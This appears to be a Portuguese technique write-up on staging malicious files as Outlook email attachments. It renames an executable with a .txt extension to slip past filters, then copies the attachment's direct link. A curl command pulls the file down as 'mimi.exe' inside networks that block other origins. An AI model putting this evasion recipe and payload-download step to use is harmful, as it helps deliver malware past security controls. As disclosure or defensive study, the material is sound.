








## Descrição
Conseguimos através do anexo de e-mail do Outlook armazenar arquivos maliciosos.
Isso nos permite realizar o upload/download de arquivos maliciosos através de um “local confiavel” por se tratar de um subdomínio do Outlook.

## Passos para reproduzir
Primeiramente devemos modificar nosso arquivo malicioso adicionando uma extensão de texto (.txt), se o ambiente em que queremos realizar o download é um Windows, muito provavelmente o arquivo malicioso será um executavel (.exe).

No Linux podemos incluir essa extensão de várias formas, uma delas é utilizar o comando *cp* para copiar o arquivo original e cria uma cópia dele arquivo adicionando a extensão de texto, nesse caso ficaria algo como: *arquivo.exe.txt*

Após prepararmos o arquivo malicioso podemos abrir o Outlook e irmos na opção “Nova Mensagem” e nela anexar nosso arquivo modificado e enviar para um qualquer destino (nesse exemplo estamos encaminhando para um endereço de e-mail temporario) pois o que nos interessa é o link do arquivo para download.

Depois de enviarmos podemos ir em *Itens Enviados* e clicar para baixar para realizar o download mas também obter o link direto do arquivo em Downloads do Navegador > Botão direito >  Copiar link.

Com o link direto em mãos podemos realizar o download através do PowerShell do Windows utilizando o comando Curl, basta que utilizemos o comando: curl "link_do_arquivo.com.br" -o mimi.exe

O comando realizará o download do arquivo salvando em sua extensão padrão (um executavel).

## Prova de Conceito (PoC)

## Observações
* Não recomendamos realizar o upload de arquivos executaveis (.exe) pois o outlook detecta como arquivo malicioso e impede que o download seja realizado.
* Arquivos muito grandes também são bloqueados por conta da restrição de tamanho por parte do anexo.
* Um outro ponto interessante é que o arquivo após enviado tem um prazo de validade que vária entre 10 à 15 minutos

## Cénario de Ataque
Esse tipo técnica seria útil em ambientes internos (externos também) onde geralmente existem bloqueios em determinadas origens, e por se tratar de um “domínio confiável” poderíamos realizar o download de sem problemas.
